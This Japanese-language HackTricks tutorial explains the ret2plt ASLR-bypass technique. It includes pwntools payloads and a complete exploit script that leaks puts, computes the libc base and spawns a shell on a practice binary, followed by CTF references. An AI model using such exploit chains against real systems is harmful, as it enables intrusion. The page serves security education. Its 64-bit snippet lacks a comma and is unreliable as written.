 # Ret2plt

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

## 基本情報

この技術の目標は、ASLRをバイパスするためにPLTから関数のアドレスを**リーク**することです。たとえば、libcから`puts`関数のアドレスをリークすると、**`libc`のベースを計算**し、**`system`**などの他の関数にアクセスするためのオフセットを計算できます。

これは、`pwntools`のペイロードを使用して行うことができます（[**こちらから**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)）。
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
注意してください。**`puts`**（PLTからのアドレスを使用）が、GOT（Global Offset Table）にある`puts`のアドレスで呼び出されていることに注目してください。これは、`puts`が`puts`のGOTエントリを出力する時点で、この**エントリにはメモリ内の`puts`の正確なアドレスが含まれている**ためです。

また、エクスプロイトで`main`のアドレスが使用されていることに注意してください。したがって、`puts`が実行を終了すると、**バイナリは終了する代わりに再び`main`を呼び出します**（したがって、漏洩したアドレスは引き続き有効です）。

{% hint style="danger" %}
これが機能するためには、バイナリが**PIEでコンパイルされていない**必要があります。または、PIEをバイパスするための**リークを見つけている**必要があります。そうでない場合は、まずPIEをバイパスする必要があります。
{% endhint %}

[**こちらでこのバイパスの完全な例**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass)を見つけることができます。これはその**例からの最終的なエクスプロイト**でした。
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## その他の例と参考文献

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64ビット、ASLR有効、ただしPIEなし、最初のステップは、canaryのバイト0x00までオーバーフローを埋めてからputsを呼び出してリークさせることです。canaryを使用して、putsを呼び出してGOTからputsのアドレスをリークさせ、`system('/bin/sh')`を呼び出すためのROPガジェットが作成されます。
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64ビット、ASLR有効、canaryなし、メイン関数内のスタックオーバーフロー、putsを呼び出してGOTからputsのアドレスをリークさせ、その後にone gadgetを呼び出すためのROPガジェット。

